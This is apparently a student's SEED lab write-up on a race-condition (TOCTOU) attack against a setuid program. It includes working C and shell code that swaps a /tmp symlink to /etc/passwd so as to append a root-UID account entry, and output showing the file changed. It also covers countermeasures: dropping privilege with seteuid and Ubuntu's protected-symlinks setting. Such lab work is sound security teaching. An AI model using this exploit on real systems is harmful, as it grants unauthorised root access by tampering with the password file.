 # Race Condition

## Task 1: Choosing Our Target

## Task 2: Launching the Race Condition Attack

### Task 2.A: Simulating a Slow Machine

首先，

```shell
ln -sf /dev/null /tmp/XYZ
```



然后运行`./vulp`，输入

```shell
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

在sleep的10秒内，输入

```shell
ln -sf /etc/passwd /tmp/XYZ
```

### Task 2.B: The Real Attack


`passwd_input`

```
test:U6aMy0wojraho:0:0:test:/root:/bin/bash

```



`attack_process.c`

```c
#include <unistd.h>

int main()
{
	while(1){
		unlink("/tmp/XYZ");
		symlink("/dev/null", "/tmp/XYZ");
		usleep(1000);

		unlink("/tmp/XYZ");
		symlink("/etc/passwd", "/tmp/XYZ");
		usleep(1000);
	}

	return 0;
}
```


`target_process.sh`

```shell
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]  
do
   ./vulp < passwd_input
   new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"

```

```shell
[02/08/22]seed@VM:~/.../race-condition$ ./target_process.sh 
No permission 
No permission 
No permission 
No permission 
STOP... The passwd file has been changed

```

### Task 2.C: An Improved Attack Method

Improved version of `attack_process.c`:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main()
{
	unsigned int flags = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
	renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
	return 0;
}
```

## Task 3: Countermeasures

### Task 3.A: Applying the Principle of Least Privilege

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);
    seteuid(getuid());	// disable root privilege

    if (fp = fopen(fn, "a+")) {
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
        exit(1);
    }

    return 0;
}
```

攻击不再可行。

### Task 3.B: Using Ubuntu’s Built-in Scheme

不断提示`No permission`或者`Open failed: Permission denied`。

When set to “1” symlinks are permitted to be followed only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.

`/tmp`设置了sticky位，是`root`所有的目录，而`/tmp/XYZ`是`seed`所有的文件。follower的uid此时是`root`，故不允许访问。

